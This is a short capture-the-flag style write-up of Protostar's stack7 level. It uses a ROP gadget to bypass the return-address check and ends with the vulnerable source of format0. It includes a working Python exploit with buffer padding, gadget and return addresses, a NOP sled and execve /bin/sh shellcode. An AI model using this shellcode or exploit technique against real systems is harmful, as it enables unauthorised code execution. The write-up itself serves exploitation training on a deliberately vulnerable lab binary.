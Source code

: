 similar to ret2libc but here we cant ret2libc so we will use ROP gadgets used in .text we can find this by `msfelfscsn` or `ROBgadget`. imma use `ROBgadget` here
1- first i need to copy *stack7* to my kali machine

```sh
~$ scp user@192.168.87.144:/opt/protostar/bin/stack7 /tmp/
```

2- i need to find suitable ROP gadget with pop and ret to use

```sh
/tmp$ ROPgadget --binary stack7
...........
0x08048493 : pop ebp ; ret
0x08048381 : pop ebx ; leave ; ret
0x08048492 : pop ebx ; pop ebp ; ret
0x080485c5 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048614 : pop ecx ; pop ebx ; leave ; ret
0x080485c7 : pop edi ; pop ebp ; ret
0x080485c6 : pop esi ; pop edi ; pop ebp ; ret
..........
```

imma use the simplest one *0x08048493 : pop ebp ; ret*

3- put the address of the gadget insted of ret address in the above solutions

4- pop a demo from dem address let's say 'BBBB'

5- after that we can use ret2libc and excute *system()* as in stack6 or return to shellcode

6- finally place the address of shellcode to return to it

```py
import struct
BOF = 80*"A"
ROPgadget=struct.pack("I",0x08048493) # pop ret
pop="BBBB"
ret=struct.pack("I",0xbffff7f0)
nope = 100*"\x90";
shell ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print BOF +ROPgadget+pop+ ret + nope + shell
```

## format 0

```c
void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
